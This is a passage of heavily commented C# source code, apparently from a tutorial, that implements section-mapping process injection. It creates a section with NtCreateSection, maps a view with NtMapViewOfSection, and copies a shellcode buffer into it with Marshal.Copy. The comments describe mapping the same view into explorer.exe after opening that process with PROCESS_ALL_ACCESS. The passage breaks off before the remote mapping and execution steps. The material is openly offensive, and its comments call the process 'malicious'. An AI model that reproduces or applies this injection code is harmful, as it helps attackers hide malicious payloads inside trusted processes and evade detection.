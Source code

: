 ```csharp
            // We can leverage this to create a section in the current process (malicious) that we can share with the targeted process (explorer.exe).
            IntPtr ptr_section_handle = IntPtr.Zero;
            UInt32 create_section_status = NtCreateSection(ref ptr_section_handle, 0xe, IntPtr.Zero, ref buffer_size, 0x40, 0x08000000, IntPtr.Zero);

            // ptr_section_handle is going to be the section handle we're going to get as the result of a successful call.
            // NtCreateSection returns STATUS_SUCCESS when the operation is successful.STATUS_SUCCESS equals to 0.
            // If either ptr_section_handle is still IntPtr.Zero or create_section_status is not STATUS_SUCCESS, then there must be something that went wrong.
            // We can write a check before going to the next process as follows:
            if (create_section_status != 0 || ptr_section_handle == IntPtr.Zero)
            {
                Console.WriteLine("[-] An error occured while creating the section.");
                return -1;
            }
            Console.WriteLine("[+] The section has been created successfully.");
            Console.WriteLine("[*] ptr_section_handle: 0x" + String.Format("{0:X}", (ptr_section_handle).ToInt64()));

            // This function maps the a view of a section into the VAS of a process. We're going to use this to map a view of the section we got a handle to.
            // We're going to map our shellcode into the current process VAS, and then we will map it again to the targeted process.
            long local_section_offset = 0;
            IntPtr ptr_local_section_addr = IntPtr.Zero;
            UInt32 local_map_view_status = NtMapViewOfSection(ptr_section_handle, GetCurrentProcess(), ref ptr_local_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x04);

            // local_map_view_status returns STATUS_SUCCESS in case the call's operation is successful.
            // ptr_local_section_addr is going to be the address of the mapped section in the current process.
            // If either local_map_view_status is not STATUS_SUCCESS or ptr_local_section_addr is IntPtr.Zero, then there must be something that went wrong.
            // We can implement a check in case of a failure as follows:
            if (local_map_view_status != 0 || ptr_local_section_addr == IntPtr.Zero)
             {
                Console.WriteLine("[-] An error occured while mapping the view within the local section.");
                return -1;
             }
                Console.WriteLine("[+] The local section view's been mapped successfully with PAGE_READWRITE access.");
                Console.WriteLine("[*] ptr_local_section_addr: 0x" + String.Format("{0:X}", (ptr_local_section_addr).ToInt64()));

            // Next, we're going to copy the shellcode into the view we've just mapped.
            // We're going to use Marshal.Copy method, which is basically used to copy data from a managed array (our shellcode) into an unmanaged memory address (the mapped view).
            // It can also be used in reverse.
            Marshal.Copy(buf, 0, ptr_local_section_addr, buf.Length);

            // Once the shellcode is copied into the memory of the current process, we'll again map the current process's view into the targeted process's VAS
            // As can be seen above, we get the first instance of explorer process to get its PID, and we use OpenProcess and supply PROCESS_ALL_ACCESS (0x001F0FFF), and the targeted process's PID.
            // This is done to get a handle to the targeted process.
            // Next, we define ptr_remote_section_addr and set it to a NULL pointer.
```